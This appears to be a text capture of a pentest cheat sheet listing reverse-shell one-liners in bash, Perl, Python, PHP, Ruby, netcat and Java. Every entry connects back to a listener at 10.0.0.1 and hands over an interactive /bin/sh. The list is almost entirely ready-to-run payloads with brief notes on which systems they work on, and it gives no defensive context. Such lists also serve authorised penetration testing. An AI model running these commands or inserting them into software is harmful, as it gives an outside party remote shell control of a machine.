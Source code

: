 Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

```
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:

```
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python
This was tested under Linux / Python 2.7:

```
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6…

```
    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby

```
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```
    nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Java

```
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
```
